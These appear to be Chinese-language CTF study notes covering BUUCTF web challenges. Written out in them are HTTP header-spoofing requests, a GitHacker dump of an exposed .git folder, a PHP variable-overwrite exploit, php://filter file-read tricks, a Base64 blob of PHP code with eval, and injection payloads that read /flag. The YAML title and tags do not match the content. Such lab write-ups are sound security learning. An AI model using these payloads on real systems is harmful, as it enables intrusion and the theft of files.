 ```yaml
---
layout: default
title: MARL Learning Notes
categories:
- Algorithm
tags:
- Computer Vision
---
```

//Description: CTF学习入门笔记。记录学习过程中遇到的问题。

//Create Date: 2025-07-02 10:31:39

//Author: channy

[toc]

# 参考书籍 
[CTF实战：从入门到提升]

题目在 [BUUCTF](https://buuoj.cn/challenges)

使用到的工具：
1. [BurpSuite](https://portswigger.net/burp)
2. [GitHacker](https://github.com/WangYihang/GitHacker)

# 1 Web
## HTTP
### [HTTP](https://buuoj.cn/challenges#[%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98%202019]Http)

修改请求信息，有`Referer`来源、`User-Agent`中客户端信息如浏览器等，及`X-Forwarded-For`伪造IP只允许本地访问

获取flag后需要把`flag{xxx}`整个commit才通过。。。只commit大括号里面的flag内容给我显示错误。。。

最终请求
```sh
GET /Secret.php HTTP/1.1
Host: node5.buuoj.cn:28483
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Syclover/138.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer:https://Sycsecret.buuoj.cn
X-Forwarded-For:127.0.0.1
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

### [BUU BURP COURSE 1](https://buuoj.cn/challenges#BUU%20BURP%20COURSE%201)

`X-Forwarded-For:127.0.0.1`不管用了，需要`X-Real-Ip:127.0.0.1`

### [Git](https://buuoj.cn/challenges#[%E7%AC%AC%E4%B8%80%E7%AB%A0%20web%E5%85%A5%E9%97%A8]%E7%B2%97%E5%BF%83%E7%9A%84%E5%B0%8F%E6%9D%8E)


```sh
python3 -m pip install -i https://pypi.org/simple/ GitHacker

githacker --url http://0d2b78ce-3914-4c05-8538-063c5b822c38.node5.buuoj.cn:81/.git/ --output-folder ./
```
flag在index.html下`n1book{git_looks_s0_easyfun}`

### [PHP变量覆盖](https://buuoj.cn/challenges#[BJDCTF2020]Mark%20loves%20cat)

先利用.git拿到php代码
```php
include 'flag.php';

$yds = "dog";
$is = "cat";
$handsome = 'yds';

foreach($_POST as $x => $y){
    $$x = $y;
}

foreach($_GET as $x => $y){
    $$x = $$y;
}

foreach($_GET as $x => $y){
    if($_GET['flag'] === $x && $x !== 'flag'){
        exit($handsome);
    }
}

if(!isset($_GET['flag']) && !isset($_POST['flag'])){
    exit($yds);
}

if($_POST['flag'] === 'flag'  || $_GET['flag'] === 'flag'){
    exit($is);
}



echo "the flag is: ".$flag;
```

变量覆盖，BurpSuite的GET请求直接加参数`?yds=flag`即可
```sh
GET /?yds=flag HTTP/1.1
Host: 7828c578-72e0-4c87-883f-61a3e2fd8f27.node5.buuoj.cn:81
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

### [PHP文件读取](https://buuoj.cn/challenges#[BJDCTF2020]ZJCTF%EF%BC%8C%E4%B8%8D%E8%BF%87%E5%A6%82%E6%AD%A4)
```php
<?php

error_reporting(0);
$text = $_GET["text"];
$file = $_GET["file"];
if(isset($text)&&(file_get_contents($text,'r')==="I have a dream")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        die("Not now!");
    }

    include($file);  //next.php
    
}
else{
    highlight_file(__FILE__);
}
?>
```

BurpSuite的POST请求需要加上`Content-Type: application/x-www-form-urlencoded`

text可用php://input传字符串，file可用php://filter/read=convert.Base64-encode/resource=next.php

得到一串
```sh
PD9waHAKJGlkID0gJF9HRVRbJ2lkJ107CiRfU0VTU0lPTlsnaWQnXSA9ICRpZDsKCmZ1bmN0aW9uIGNvbXBsZXgoJHJlLCAkc3RyKSB7CiAgICByZXR1cm4gcHJlZ19yZXBsYWNlKAogICAgICAgICcvKCcgLiAkcmUgLiAnKS9laScsCiAgICAgICAgJ3N0cnRvbG93ZXIoIlxcMSIpJywKICAgICAgICAkc3RyCiAgICApOwp9CgoKZm9yZWFjaCgkX0dFVCBhcyAkcmUgPT4gJHN0cikgewogICAgZWNobyBjb21wbGV4KCRyZSwgJHN0cikuICJcbiI7Cn0KCmZ1bmN0aW9uIGdldEZsYWcoKXsKCUBldmFsKCRfR0VUWydjbWQnXSk7Cn0K
```
暂且记下

### [PHP注入](https://buuoj.cn/challenges#[HFCTF2021%20Quals]Unsetme)
类似于SQL注入的思想
```sh
GET /?a=a%0a);%0aphpinfo( HTTP/1.1
```

```sh
GET /?a=a%0a);%0aecho%00file_get_contents(%27/flag%27 HTTP/1.1
```

### 